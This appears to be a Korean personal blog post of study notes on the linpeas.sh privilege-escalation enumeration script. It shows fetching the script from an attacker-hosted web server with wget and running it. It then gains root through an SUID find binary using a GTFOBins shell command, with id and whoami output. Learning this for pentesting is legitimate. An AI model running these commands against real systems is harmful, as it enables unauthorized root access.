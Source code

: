 ```yaml
---
layout: post
title: "PEASS-ng 공부"
date: 2025-09-04 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

PEASS-ng(Privilege Escalation Awesome Scripts SUITE new generation)는 권한 상승을 위한 정보를 자동으로 수집해 주는 스크립트 모음이다. 이 중 `linpeas.sh`는 리눅스 환경에서 실행되며 시스템의 설정 오류 · 커널 버전 · SUID 파일 · cron 작업 등 권한 상승에 이용될 수 있는 거의 모든 항목을 검사하고 결과를 색상으로 구분하여 보여준다. 수동으로 정보를 수집하는 과정을 자동화하여 분석 시간을 크게 단축시킨다.

---

### 2. 스크립트 실행 방법

`linpeas.sh` 스크립트를 공격 대상 서버로 옮긴 후 실행 권한을 부여하고 실행하는 과정이 필요하다.

#### ***1. 스크립트 전송***
공격자 PC에서 웹 서버를 열고 대상 서버에서 `wget` 이나 `curl` 명령어로 스크립트를 다운로드하는 것이 일반적이다.

*   ***공격자 PC:***
    ```bash
    # linpeas.sh 파일이 있는 디렉터리에서 실행
    python3 -m http.server 8000
    ```
*   ***대상 서버:***
    ```bash
    # 쓰기 가능한 디렉터리(예: /tmp)로 이동
    cd /tmp
    wget http://[Attacker IP]:8000/linpeas.sh
    ```

#### **2. 스크립트 실행**
다운로드한 스크립트에 실행 권한을 부여하고 실행한다.
```bash
chmod +x linpeas.sh
./linpeas.sh
```

---

### 3. 결과 분석

`linpeas.sh`는 실행 결과에서 잠재적인 취약점 항목을 색상으로 강조하여 보여준다.

*   **빨간색 + 노란색 배경:** 95% 확률로 권한 상승에 이용 가능한 매우 중요한 항목.
*   **빨간색:** 흥미롭거나 주의 깊게 봐야 할 항목.
*   **노란색:** 추가적인 정보가 될 수 있는 항목.

   ![Linpeas.sh](/assets/images/Lin_1.png)

결과 보고서를 통해 SUID가 설정된 바이너리, 시스템 권한으로 실행되는 cron 작업 `sudo -l` 로 확인한 권한 등 권한 상승에 결정적인 단서가 될 수 있는 정보들을 한눈에 파악할 수 있다. 예를 들어 `(i) find results` 섹션에서 [GTFOBins](https://gtfobins.github.io/)에 등재된 SUID 파일을 발견했다면 이를 직접적인 공격 경로로 활용할 수 있다.

### 4. 사용 예시: SUID 바이너리를 이용한 권한 상승

이 예시는 `linpeas.sh`가 찾아낸 `SUID` 설정 파일을 이용하여 `root` 권한을 획득하는 과정을 보여준다. '정보 수집 -> 분석 -> 공격 실행'의 전체 흐름을 따른다.

#### ***1. 정보 수집 (linpeas.sh)***
**`./linpeas.sh`** 를 실행하여 시스템을 스캔한다. 스캔 결과 중 `SUID/SGID Binaries` 섹션에서 권한 상승에 악용될 수 있는 파일 목록을 확인한다.

아래 예시에서는 **`/usr/bin/find`** 파일이 SUID 비트가 설정되어 있고 **GTFOBins**에 등재되어 있어 권한 상승에 이용 가능하다고 **빨간색+노란색 배경**으로 강조되어 있다.

  ![LinpeasSuid](/assets/images/Lin_2.png)

#### ***2. 분석 (GTFOBins)***
**GTFOBins**는 유닉스 바이너리를 이용한 권한 상승 및 다양한 기능 우회 방법을 모아놓은 리소스이다. `linpeas.sh`가 알려준 **`find`** 바이너리를 GTFOBins 사이트에서 검색한다.

GTFOBins는 `find`의 SUID를 이용하여 쉘을 실행하는 아래의 명령어를 제공한다.
```bash
find . -exec /bin/sh -p \; -quit
```

#### ***3. 공격 실행 (권한 상승)***
획득한 일반 사용자 쉘에서 GTFOBins에서 찾은 명령어를 그대로 실행한다.

```bash
find . -exec /bin/sh -p \; -quit
# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
# whoami
root
```

  ![LinpeasRoot](/assets/images/Lin_3.png)

*   명령어를 실행하면 프롬프트는 그대로지만 **`-p`** 옵션으로 인해 유효 사용자 ID(`euid`)가 `root`로 설정된 쉘이 실행된다.
*   **`id`** 명령어를 실행하면 `euid=0(root)`로 표시되어 권한이 상승했음을 확인할 수 있다.
*   **`whoami`** 명령어 역시 `root`를 반환한다.

이 과정을 통해 `linpeas.sh`로 수집한 정보를 바탕으로 분석하여 실제 `root` 권한을 획득하는 데 성공했다.

<hr class="short-rule">